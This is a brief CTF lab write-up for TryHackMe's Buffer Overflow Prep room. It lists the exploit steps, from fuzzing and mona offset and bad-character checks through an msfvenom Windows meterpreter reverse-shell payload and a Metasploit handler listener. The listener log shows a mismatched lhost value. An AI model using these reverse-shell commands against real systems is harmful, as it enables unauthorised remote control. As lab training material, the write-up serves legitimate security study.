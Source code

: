
# Buffer Overflow Prep

Write up for TryHackMe BOF Prep


## Steps:

- Fuzzing
- Pattern create using "msf-pattern_create -l <fuzzed value>"
- Setup working dir for mona - !mona config -set workingfolder c:\monalogs\%p
- Find offset - !mona findmsp -distance <fuzzed value> or /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 386F4337
- Overwrite ESP using 4 Bs
- Find bad chars - !mona bytearray -b "\x00"
- Copy chars and add value to payload
- Compare bad chars to bytearray - !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>
- Redo bytearray and compare unti result is unmodified
- Find jmp address - !mona jmp -r esp -cpb  "\x00""
- Use jmp address as retn/esp_overwrite
- Create payload - msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b '\x00\x23\x3c\x83\xba' EXITFUNC=thread -f c
- Add nops/padding "\x90"
- Replace bytearrays with shell code in payload var
- Create listener in msfconsole:
```bash
    msf6 > use exploit/multi/handler 
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost 192.168.1.100
    lhost => 192.168.203.180
    msf6 exploit(multi/handler) > set lport 4444
    lport => 4444
    msf6 exploit(multi/handler) > run